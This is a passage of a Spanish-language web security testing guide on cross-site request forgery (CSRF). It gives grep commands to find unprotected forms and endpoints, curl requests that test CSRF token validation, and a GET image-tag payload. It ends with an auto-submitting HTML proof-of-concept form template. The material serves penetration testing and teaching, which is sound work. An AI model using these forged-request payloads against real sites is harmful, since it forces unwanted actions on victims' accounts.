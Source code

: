 ```html
<!-- Si el token no se valida en GET -->
<img src="https://victima.com/admin/delete_user/123?authenticity_token=">
```

## Metodología de Testing Avanzada

### 1. Identificación de Superficies de Ataque

```bash
# Buscar endpoints que cambien estado
grep -r "POST\|PUT\|DELETE\|PATCH" source_code/
# Identificar formularios sin tokens
grep -r "<form" templates/ | grep -v "csrf"
# Buscar APIs JSON
grep -r "application/json" config/
```

### 2. Análisis de Protecciones

**Verificar SameSite Cookies:**

```javascript
// En DevTools Console
document.cookie.split(';').forEach(c => {
  if (c.includes('SameSite')) console.log(c);
});
```

**Testing de Tokens CSRF:**

```bash
# Token presente
curl -X POST https://victima.com/api/action -d "csrf_token=valid&action=test"

# Token omitido
curl -X POST https://victima.com/api/action -d "action=test"

# Token inválido
curl -X POST https://victima.com/api/action -d "csrf_token=invalid&action=test"
```

### 3. Construcción de PoCs

**Template Básico:**

```html
<html>
<head><title>CSRF PoC</title></head>
<body>
  <h1>CSRF Proof of Concept</h1>
  <p>Este PoC demuestra CSRF en: TARGET_URL</p>
  
  <form action="TARGET_URL" method="POST" id="csrf_form">
    <!-- Campos maliciosos aquí -->
    <input type="hidden" name="field1" value="malicious_value1">
    <input type="hidden" name="field2" value="malicious_value2">
  </form>
  
  <script>
    // Auto-submit después de 3 segundos
    setTimeout(() => {
      document.getElementById('csrf_form').submit();
    }, 3000);
  </script>
</body>
</html>
```